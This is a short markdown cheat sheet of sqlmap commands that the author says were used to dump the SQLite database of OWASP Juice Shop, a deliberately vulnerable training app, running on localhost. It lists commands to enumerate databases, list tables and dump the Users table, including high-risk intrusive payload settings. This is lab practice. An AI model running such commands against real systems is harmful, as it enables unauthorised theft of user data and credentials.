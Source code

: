 # Commands for SQLMAP

These examples are referencing OWASP Juice Shop where I performed an SQLite Dump

## Simple command 
`sqlmap -u "http://localhost:3000/rest/products/search?q=apple" --batch --dbs

**--batch = auto answer defaults (so it doesn’t prompt you)
--dbs = enumerate databases**

## List tables
``sqlmap -u "http://localhost:3000/rest/products/search?q=apple" -D main --tables

## Table Dump
``sqlmap -u "http://localhost:3000/rest/products/search?q=apple" -D main -T Users --dump

## To test with more parameters for more dbs such as SQLLite use command
``sqlmap -u "http://localhost:3000/rest/products/search?q=apple" --batch --dbs --level=5 --risk=3

**--level 5 → tests more parameters & payloads

--risk 3 → includes potentially intrusive/time-based payloads**

## To List the tables present within this db
``sqlmap -u "http://localhost:3000/rest/products/search?q=apple" --batch --level=5 --risk=3 --dbms=SQLite --tables

## For dump 
sqlmap -u "http://localhost:3000/rest/products/search?q=apple" --batch --level=5 --risk=3 --dbms=SQLite -T Users --dump

** After -T, add any table name parameter listed after viewing the table list.